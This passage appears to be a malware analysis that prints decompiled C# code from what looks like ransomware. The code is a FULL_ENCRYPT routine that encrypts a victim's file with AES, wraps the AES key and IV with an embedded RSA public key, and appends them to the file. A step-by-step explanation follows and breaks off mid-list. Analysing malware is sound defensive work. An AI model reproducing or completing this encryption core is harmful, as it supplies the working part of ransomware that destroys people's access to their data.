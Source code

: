 ```csharp
				rijndaelManaged.KeySize = 256;
				rijndaelManaged.BlockSize = 128;
				rijndaelManaged.Key = Encoding.ASCII.GetBytes(text);
				rijndaelManaged.IV = Encoding.ASCII.GetBytes(text2);
				rijndaelManaged.Mode = CipherMode.CBC;
				using (CryptoStream cryptoStream = new CryptoStream(memoryStream, rijndaelManaged.CreateEncryptor(), CryptoStreamMode.Write))
				{
					cryptoStream.Write(array, 0, array.Length);
				}
				array2 = memoryStream.ToArray();
			}
		}
		fileStream.Write(array2, 0, array2.Length);
	}
			using (FileStream fileStream2 = new FileStream(filePath, FileMode.Append, FileAccess.Write))
	{
				fileStream2.Write(Program.RSA_KEY_IV, 0, Program.RSA_KEY_IV.Length);
	}
		}

// Token: 0x06000009 RID: 9 RVA: 0x00002978 File Offset: 0x00000B78
private static byte[] RSA_ENCRYPT(string publicKeyString, byte[] dataToEncrypt)
{
	byte[] result;
	using (RSACryptoServiceProvider rsacryptoServiceProvider = new RSACryptoServiceProvider())
	{
		rsacryptoServiceProvider.FromXmlString(publicKeyString);
		result = rsacryptoServiceProvider.Encrypt(dataToEncrypt, false);
	}
	return result;
}
```

The `FULL_ENCRYPT` function is designed to encrypt the entire contents of a file using a combination of RSA and AES encryption algorithms. Let's break down what each part of the function does:

1.  **Reading the File Contents**:
    
    -   `byte[] array = File.ReadAllBytes(filePath);`: This line reads all the bytes from the file located at `filePath` and stores them in a byte array called `array`.
2.  **Generating Random Strings for AES Key and IV**:
    
    -   `string text = Program.RANDOM_STRING(32);`: Generates a random string of 32 characters, which will be used as the AES key.
    -   `string text2 = Program.RANDOM_STRING(16);`: Generates a random string of 16 characters, which will be used as the AES initialization vector (IV).
3.  **Encrypting the AES Key and IV with RSA**:
    
    -   `byte[] bytes = Encoding.ASCII.GetBytes(text + "|" + text2);`: Combines the AES key and IV into a single byte array.
    -   `Program.RSA_KEY_IV = Program.RSA_ENCRYPT(Program.RSA_PUBLIC_KEY, bytes);`: Encrypts the combined AES key and IV using RSA encryption with a public key (`Program.RSA_PUBLIC_KEY`).
4.  **Setting Up AES Encryption**:
    